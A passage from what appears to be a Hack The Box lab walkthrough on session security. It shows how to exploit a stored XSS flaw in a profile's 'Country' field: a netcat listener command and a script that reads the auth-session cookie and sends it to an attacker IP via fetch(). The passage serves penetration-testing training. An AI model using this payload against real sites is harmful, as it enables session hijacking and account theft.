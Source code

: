 ![Country Input - XSS Vulnerability](/images/htb/session-security/xss-vulnerability.png)

### Extract cookie via XSS

To extract the auth-session cookie, follow these steps:

1. Start a netcat listener on your machine:

```
nc -nlvp 1337
```

2. Update the following payload with your machine’s IP and inject it into Julie’s "Country" field:

```
<script>const cookies = document.cookie;
const authSession = cookies.split('; ').find(row => row.startsWith('auth-session='));
if (authSession) {
    const authValue = encodeURIComponent(authSession.split('=')[1]);
    
    fetch(`http://{YOUR_MACHINE_IP}:1337/?cookie=${authValue}`)
        .then(response => console.log('Cookie sent successfully'))
        .catch(error => console.error('Error sending cookie:', error));
} else {
    console.error('auth-session cookie not found');
}</script>
```

3. Save the profile and click "Share Profile." Check the netcat terminal for the received cookie:
